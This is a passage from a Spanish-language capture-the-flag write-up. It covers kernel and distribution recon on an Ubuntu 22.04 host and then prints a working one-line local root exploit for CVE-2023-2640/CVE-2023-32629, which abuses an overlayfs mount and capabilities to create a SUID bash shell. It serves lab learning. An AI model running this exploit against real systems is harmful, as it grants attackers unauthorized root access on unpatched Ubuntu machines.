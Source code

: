 Vemos que version de kernel esta corriendo con [[uname]] y el comando `uname -r` y para ver si el sistema es de 32 o 64 bits usamos `uname -m`

![[Analytics22.png]]
Y con [[lsb_release]] usando `lsb_release -a` vamos a ver que distribucion estan usando
![[Analytics23.png]]
Y nos da que tenemos un *ubuntu 22.04* de 32 bits y version de kernel 6.2.0-25-generic

Buscando informacion sobre esta version encontramos los [[CVE-2023-2640-CVE-2023-32629]]. Y encontramos el [repositorio de g1vi](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/tree/main) que nos muestra el payload que tenemos que poner para hacer la explotacion

```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

![[Analytics24.png]]
Ya somos root y podemos catear las flags